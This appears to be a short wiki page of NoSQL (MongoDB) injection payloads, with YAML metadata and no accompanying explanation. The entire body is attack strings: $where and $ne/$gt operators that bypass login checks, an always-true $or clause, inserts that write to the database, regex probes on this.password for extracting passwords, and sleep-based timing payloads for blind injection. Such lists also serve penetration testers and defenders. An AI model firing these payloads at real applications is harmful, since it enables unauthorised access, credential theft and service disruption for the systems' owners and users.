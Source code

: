 ```yaml
---
title: NoSQLi
description: NOSQL Injection Payloads
published: true
date: 2021-01-21T03:34:38.781Z
tags: 
editor: markdown
dateCreated: 2021-01-21T03:34:38.781Z
---
```


#NOSQLi Injection Payloads
true, $where: '1 == 1'
,$where: '1 == 1'
$where: '1 == 1'
',$where: '1 == 1'
1,$where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/./)//+%00
' && this.passwordzz.match(/./)//+%00
'%20%26%26%20this.password.match(/./)//+%00
'%20%26%26%20this.passwordzz.match(/./)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';sleep(5000);'
';sleep(5000);+'
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);